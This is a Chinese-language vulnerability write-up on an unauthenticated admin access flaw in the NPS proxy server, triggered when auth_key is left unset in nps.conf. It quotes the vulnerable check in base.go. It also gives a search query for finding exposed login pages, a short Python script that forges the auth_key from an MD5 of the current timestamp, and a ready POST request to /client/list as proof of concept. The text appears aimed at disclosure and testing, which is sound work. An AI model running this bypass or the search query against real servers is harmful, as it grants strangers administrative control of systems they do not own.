




# NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

```
NPS
```

## 网络测绘

```
body="serializeArray()" && body="/login/verify"
```

## 漏洞复现

登录页面



在 web/controllers/base.go 文件中



```
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标



```
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

